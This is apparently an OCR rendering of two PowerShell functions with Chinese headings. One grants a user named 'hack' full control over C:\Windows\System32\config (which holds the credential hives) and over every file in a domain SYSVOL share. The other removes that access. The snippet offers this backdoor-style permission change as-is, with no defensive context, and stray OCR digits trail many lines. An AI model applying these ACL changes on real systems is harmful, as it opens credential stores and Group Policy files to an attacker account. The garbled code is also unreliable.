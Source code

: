 


**添加用户hack对指定文件夹(包括当前目录及其子目录中的文件)的完全访问权限** 



```
function Add-ACL{      
    [CmdletBinding()]                 
    Param (      
        [Parameter(Mandatory = $True)]      
        [String]      
        [ValidateNotNullOrEmpty()]      
        $Path      
    )       1
    $acl = Get-Acl -Path $Path      1
    $person = [System.Security.Principal.NTAccount]"hack"      1
    $access = [System.Security.AccessControl.FileSystemRights]"FullControl"      1
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"      1
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"      1
    $type = [System.Security.AccessControl.AccessControlType]"Allow"      1
    $rule = New-Object System.Security.AccessControl.FileSystemAccessRule( `      1
    $person,$access,$inheritance,$propagation,$type)      1
    $acl.AddAccessRule($rule)      1
    Set-Acl $Path $acl      2
}      2
Add-ACL -Path 'C:\Windows\System32\config\'      2
$fileList = Get-ChildItem 'C:\Windows\SYSVOL\sysvol\test.com' -recurse      2
Foreach($file in $fileList)      2
{      2
    $file.fullname      2
    Add-ACL -Path $file.fullname      2
}
```




**移除用户hack对指定文件夹(包括当前目录及其子目录中的文件)的完全访问权限**



```
function Remove-ACL{      
    [CmdletBinding()]                 
    Param (      
        [Parameter(Mandatory = $True)]      
        [String]      
        [ValidateNotNullOrEmpty()]      
        $Path      
    )       1
    $acl = Get-Acl -Path $Path      1
    $person = [System.Security.Principal.NTAccount]"hack"      1
    $access = [System.Security.AccessControl.FileSystemRights]"FullControl"      1
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"      1
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"      1
    $type = [System.Security.AccessControl.AccessControlType]"Allow"      1
    $rule = New-Object System.Security.AccessControl.FileSystemAccessRule( `      1
    $person,$access,$inheritance,$propagation,$type)      1
    $acl.RemoveAccessRule($rule)      1
    Set-Acl $Path $acl      2
}      2
Remove-ACL -Path 'C:\Windows\System32\config\'      2
$fileList = Get-ChildItem 'C:\Windows\SYSVOL\sysvol\test.com' -recurse      2
Foreach($file in $fileList)      2
{      2
    Remove-ACL -Path $file.fullname      2
}
```
